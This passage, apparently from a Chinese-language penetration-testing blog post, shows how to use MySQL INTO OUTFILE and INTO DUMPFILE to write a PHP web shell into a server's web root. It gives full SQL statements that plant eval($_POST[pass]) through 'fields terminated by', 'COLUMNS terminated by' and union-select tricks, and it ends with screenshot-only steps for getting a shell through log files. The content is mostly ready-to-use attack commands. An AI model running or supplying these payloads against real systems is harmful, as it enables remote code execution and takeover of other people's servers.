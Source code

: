 **fields terminated by**

 

| 1   | select \* from users where id=1 into outfile 'D:\\phpstudy_pro\\WWW\\shell.php' fields terminated by '\<?php eval(\$\_POST\[\\pass\\\]); ?\>'; |
|-----|------------------------------------------------------------------------------------------------------------------------------------------------|

 

![image-20240410162128321](C:/Users/Lynn/AppData/Roaming/Typora/typora-user-images/image-20240410162128321.png)

**COLUMNS terminated by**

 

| 1   | select \* from users where id=1 into outfile 'D:\\phpstudy_pro\\WWW\\shell.php' COLUMNS terminated by '\<?php eval(\$\_POST\[\\pass\\\]); ?\>'; |
|-----|-------------------------------------------------------------------------------------------------------------------------------------------------|

 

![image-20240410162140176](C:/Users/Lynn/AppData/Roaming/Typora/typora-user-images/image-20240410162140176.png)

写入文件结果和上面的方法一样

**0x03 outfile和dumpfile的区别**

简单的说outfile写完会有脏数据，dumpfile可以做到没有脏数据，所以在写udf的时候是用dumpfile的

上面已经写过outfile了，下面直接演示dumpfile

| 1   | select \* from users where id=-1 union select '','','\<?php eval(\$\_POST\[\\pass\\\]); ?\>' into dumpfile 'D:\\phpstudy_pro\\WWW\\shell.php'; |
|-----|------------------------------------------------------------------------------------------------------------------------------------------------|

 

![image-20240410162204353](C:/Users/Lynn/AppData/Roaming/Typora/typora-user-images/image-20240410162204353.png)

 

| 1   | select \* from users where id=1 union select 1,2,'\<?php eval(\$\_POST\[\\pass\\\]); ?\>' into dumpfile 'D:\\phpstudy_pro\\WWW\\shell.php'; |
|-----|---------------------------------------------------------------------------------------------------------------------------------------------|

 

![image-20240410162233308](C:/Users/Lynn/AppData/Roaming/Typora/typora-user-images/image-20240410162233308.png)

可以看到这个是带着数据的，里面有查询出来的数据和自己写的12，所以只要让查询为空，然后union select后面接着的数据为空就可以达到干净的文件的效果

**0x04 日志getshell**

![image-20240410162324527](C:/Users/Lynn/AppData/Roaming/Typora/typora-user-images/image-20240410162324527.png) 

![image-20240410162251997](C:/Users/Lynn/AppData/Roaming/Typora/typora-user-images/image-20240410162251997.png)

修改好之后是这样的

![image-20240410162336044](C:/Users/Lynn/AppData/Roaming/Typora/typora-user-images/image-20240410162336044.png)

然后执行语句

![image-20240410162346222](C:/Users/Lynn/AppData/Roaming/Typora/typora-user-images/image-20240410162346222.png)

查看日志文件
